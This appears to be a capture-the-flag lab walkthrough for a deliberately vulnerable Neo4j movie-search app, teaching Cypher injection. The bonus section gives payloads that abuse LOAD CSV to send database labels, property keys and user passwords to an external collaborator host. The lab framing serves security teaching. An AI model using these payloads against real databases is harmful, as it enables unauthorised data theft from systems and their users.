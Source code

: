 ## Neo4j EASY

<details>
  <summary>Hints</summary>

  1. Can you modify the request before it gets sent to server?
  2. Can you modify the request so the application displays an error with the cypher query? 
  3. Can you modify the request to include the Cypher equivalent to sql injection's ```x' or 'x'='x```
</details>

<details>
  <summary>Walkthrough</summary>

  1. Browse to the Using Burp or ZAP, intercept request after clicking "go" on Neo4j search page
  2. Edit the request: Change ```person=Tom+Hanks``` to ```person=xxxxx"```
  3. Forward the request
  4. Back in your browser, observe the query in the error message
  5. Send another request and intercept it
  6. Edit the request: Change ```person=Tom+Hanks`` to ```person=Tom+Hanks" or person.name=~".*```
  7. Forward the request
  8. Back in your browser look for the FLAGs
</details>

## Neo4j MEDIUM 

## Neo4j HARD

## Neo4j BONUS  

<details>
  <summary>Hints</summary>

  1. You need your own webserver where you may monitor access logs or  [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) for the BONUS flags
  2. Learn and use [Neo4j's db.labels() and db.propertyKeys() procedures](https://neo4j.com/docs/cypher-manual/current/clauses/call/) to learn what's in this database.
  3. Learn and use [Neo4j's LOAD CSV functionality](https://neo4j.com/developer/guide-import-csv/) to cause Neo4j to make http requests
</details>

<details>
  <summary>More Hints</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.

1. Set your challenge level to Medium

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2blabel+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

2. Get list of all properties in the database and look for something interesting

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bpropertyKey+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Try variations of the following payload, replacing LABEL with an actual label and PROPERTY with an actual property from steps 1 & 2. This will tell you what properties go with what labels - if no error is thrown you have a property matched to a label.

```
person=Christian+Bale"})-[role]->(node:LABEL)+RETURN+person,role,node.PROPERTY&role=DIRECTED&search=go
```

For example, this should throw an error

```
person=Christian+Bale"})-[role]->(node:Person)+RETURN+person,role,node.title&role=DIRECTED&search=go
```

And this should not throw an error, but you won't see the data for ```node.title``` because of the code that's printing data to the screen

```
person=Christian+Bale"})-[role]->(node:Movie)+RETURN+person,role,node.title&role=DIRECTED&search=go
```

4. Once you've decided what LABEL and PROPERTY you are interested in, use the following payload, foreach person in the database, replacing LABEL with the label and PROPERTY with the property and watch your collaborator space or your server access logs. 

```
person=Tom+Cruise"})-[role]->(node:LABEL)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.name%2b'/'%2bnode.PROPERTY+AS+r+return+person//&search=go//&role=DIRECTED&search=go

```

For example

```
person=Tom+Cruise"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```

5. Some of the flags may need to be further figured out.


<details>
  <summary>Exact steps to FLAGS</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.

1. Set your challenge level to Medium

2. Get a list of all labels in the database - you are looking for the ```User``` label.

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2blabel+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

2. Get list of all properties in the database - you are looking for the ```password``` label. 

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bpropertyKey+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Use the following payloads to get the BONUS flags.

```
person=Tom+Tykwer"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
person=Tom+Cruise"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
person=Tom+Skerritt"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```
4. The BONUS^MEDIUM password is base64 encoded 3x. 
5. The BONUS^HARD password is encoded using Ceasar Cipher then converted to asciihex then base64 encoded.
</details>
